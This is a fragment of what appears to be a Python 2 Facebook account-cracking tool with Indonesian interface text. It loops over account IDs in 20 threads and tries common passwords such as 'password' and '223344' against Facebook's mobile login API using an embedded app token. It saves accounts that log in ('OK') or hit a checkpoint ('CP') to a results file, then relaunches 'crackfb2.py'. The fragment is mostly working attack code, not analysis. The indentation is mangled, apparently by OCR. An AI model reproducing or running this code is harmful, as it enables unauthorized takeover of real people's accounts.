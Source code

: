                                             						cek.write('\n   [CP] '+em+' • '+pw4)
                                            						cek.close()
                                            						CP.append(em)
										else:
											pw5 = '223344'
                                            						data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(em)+"&locale=en_US&password="+(pw5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                            						xo = json.load(data)
                                            						if 'access_token' in xo:
                                                						print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pw5
                                                						oke = open('done/ARST.txt', 'a')
                                                						oke.write('\n   [OK] '+em+' • '+pw5)
                                                						oke.close()
                                                						oks.append(em)
                                            						else :
                                                						if 'www.facebook.com' in xo['error_msg']:
                                                   						 	print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pw5
                                                    							cek = open('done/ARST.txt', 'a')
                                                    							cek.write('\n   [CP] '+em+' • '+pw5)
                                                    							cek.close()
                                                    							CP.append(em)
												else:
													pw6 = 'password'
                                                    							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(em)+"&locale=en_US&password="+(pw6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                                    							xo = json.load(data)
                                                    							if 'access_token' in xo:
                                                        							print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pw6
                                                        							oke = open('done/ARST.txt', 'a')
                                                        							oke.write('\n   [OK] '+em+' • '+pw6)
                                                        							oke.close()
                                                        							oks.append(em)
                                                   							else :
                                                        							if 'www.facebook.com' in xo['error_msg']:
                                                           								print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pw6
                                                            								cek = open('done/ARST.txt', 'a')
                                                            								cek.write('\n   [CP] '+em+' • '+pw6)
                                                            								cek.close()
                                                            								CP.append(em)
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print '\033[0;97m   • \033[0;97mSelesai ...'
	print"\033[0;97m   • \033[0;97mTotal \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97m: \033[0;97m"+str(len(oks))+"\033[0;97m/\033[0;97m"+str(len(CP))
	print '\033[0;97m   • \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97mfile tersimpan \033[0;97m: \033[0;97mDone/ATST.txt'
	print "\033[0;91m╚═══════════════════════════════════════════════════════════════╝"
	raw_input("\033[0;97m   < \033[0;97mKembali\033[0;97m >")
	os.system("python2 crackfb2.py")
	